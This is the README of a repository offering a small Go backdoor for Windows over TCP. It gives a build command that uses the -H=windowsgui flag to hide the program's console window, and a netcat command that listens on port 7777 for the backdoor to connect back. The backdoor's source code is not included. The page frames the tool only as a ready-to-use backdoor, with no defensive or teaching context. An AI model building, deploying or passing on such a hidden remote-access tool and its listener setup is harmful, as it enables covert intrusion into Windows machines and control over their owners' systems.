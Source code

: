 # go-basic-backdoor

This is a basic golang backdoor for windows over tcp in 24 line 

# Compilation
```
go build -ldflags -H=windowsgui backdoor.go
```
# Start netcat listener
```
nc -L 0.0.0.0 -p 7777
```

